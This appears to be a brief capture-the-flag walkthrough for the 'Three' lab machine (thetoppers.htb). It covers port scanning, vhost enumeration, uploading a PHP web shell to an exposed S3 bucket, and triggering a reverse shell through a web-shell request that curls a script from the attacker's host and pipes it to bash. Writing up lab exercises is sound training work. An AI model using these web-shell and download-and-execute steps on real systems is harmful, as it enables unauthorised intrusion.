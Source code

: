 # 1.Port Scan
ip=10.129.227.248
`nmap -sC -sV -p- $ip`

![d2fdcc6d25130d8c240c32c34cc88182.png](../_resources/d2fdcc6d25130d8c240c32c34cc88182.png)

# 2.Thetoppers.htb connect
`sudo vim /etc/hosts`

![698845054e5d64c7e39a02f5ddfced02.png](../_resources/698845054e5d64c7e39a02f5ddfced02.png)

# 3 SubDirectory Search
`gobuster vhost -w /home/kali/Three/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb` 

# 4 AWS Service
![1aea30a5c2183c350c7b3b33993409bf.png](../_resources/1aea30a5c2183c350c7b3b33993409bf.png)
 
 ##  Shellscript Upload


**http://thetoppers.htb/shell.php?cmd=id**

![4c7551d9f3c27222ada7ea4551fc8e3a.png](../_resources/4c7551d9f3c27222ada7ea4551fc8e3a.png)

## use sh
`aws --endpoint=http://s3.thetoppers.htb s3 cp test.sh s3://thetoppers.htb`

## use php
`aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` 

![f18a34dc541f070b1b36276997d79d88.png](../_resources/f18a34dc541f070b1b36276997d79d88.png)

## AWS Connect
`python3 -m http.server 8080`

![e6f9b8a8d7fa3b12441ddf80f3e9efcc.png](../_resources/e6f9b8a8d7fa3b12441ddf80f3e9efcc.png)

`sudo nc -lvnp 443`

![1c61e34330c70c7a1b6aacafb604d235.png](../_resources/1c61e34330c70c7a1b6aacafb604d235.png)

## URL Request
**http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.8:8080/test.sh|bash**

## 5 AWS Connect&Flag get
![f3a8e39bfdd603bc65f601aacf16e792.png](../_resources/f3a8e39bfdd603bc65f601aacf16e792.png)

![d370a2101c42645345a50ede6eaaa65c.png](../_resources/d370a2101c42645345a50ede6eaaa65c.png)
